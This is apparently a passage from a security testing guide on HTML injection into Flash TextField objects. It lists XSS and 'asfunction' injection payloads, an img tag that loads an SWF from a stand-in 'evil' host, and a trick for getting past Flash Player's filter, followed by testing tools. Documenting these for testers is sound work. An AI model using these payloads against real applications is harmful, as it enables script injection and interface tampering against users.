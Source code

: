 TextField Objects can render minimal HTML by setting:

```actionscript
tf.html = true
tf.htmlText = '<tag>text</tag>'
```

So if some part of text could be controlled by the tester, an `<a>` tag or an image tag could be injected resulting in modifying the GUI or a XSS attack on the browser.

Some attack examples with `<a>` tag:

- Direct XSS: `<a href='javascript:alert(123)'>`
- Call a function: `<a href='asfunction:function,arg'>`
- Call SWF public functions: `<a href='asfunction:_root.obj.function, arg'>`
- Call native static as function: `<a href='asfunction:System.Security.allowDomain,evilhost'>`

An image tag could be used as well:

```html
<img src='http://evil/evil.swf'>
```

In this example, `.swf` is necessary to bypass the Flash Player internal filter:

```html
<img src='javascript:evilcode//.swf'>
```

Since the release of Flash Player 9.0.124.0, XSS is no longer exploitable, but GUI modification could still be accomplished.

The following tools may be helpful in working with SWF:

- [Adobe SWF Investigator](https://labs.adobe.com/technologies/swfinvestigator/)
- [OWASP SWFIntruder](https://wiki.owasp.org/index.php/Category:SWFIntruder)
- [Decompiler – Flare](http://www.nowrap.de/flare.html)
- [Disassembler – Flasm](http://flasm.sourceforge.net/)
- [Swfmill – Convert Swf to XML and vice versa](https://www.swfmill.org/)
